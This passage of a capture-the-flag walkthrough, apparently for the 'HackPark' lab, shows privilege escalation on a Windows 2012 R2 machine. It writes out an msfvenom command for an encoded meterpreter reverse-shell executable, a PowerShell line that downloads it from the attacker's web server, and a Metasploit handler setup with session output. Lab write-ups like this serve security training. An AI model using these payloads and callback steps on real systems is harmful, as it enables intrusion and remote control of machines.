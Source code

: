 ## Privilege escalation

Pivot from netcat to a meterpreter session, and enumerate the machine to identify potential vulnerabilities. Then use 
this gathered information to exploit the system and become Administrator. 

```text
# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=5555 -f exe -o revshell.exe
```

In the directory where the `revshell.exe` is, start a web server:

    # python3 -m http.server 8000

In the reverse shell we already have:

    powershell -c "Invoke-WebRequest -Uri 'http://IP address attack machine:8000/revshell.exe' -OutFile 'c:\windows\temp\revshell.exe'"

In a new terminal, set up a Metasploit multi-handler:

```text
# msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP address attack machine>
msf6 exploit(multi/handler) > set LPORT 5555
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on <IP address attack machine>:5555 
```

In the reverse shell terminal, start the executable: 

```text
C:\windows\system32\inetsrv>cd \windows\temp
c:\Windows\Temp>.\revshell.exe
```

In the `msfconsole` terminal, a `meterpreter` shell has appeared:

```text
meterpreter > 
```

Get detailed information about the Windows system:

```text
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

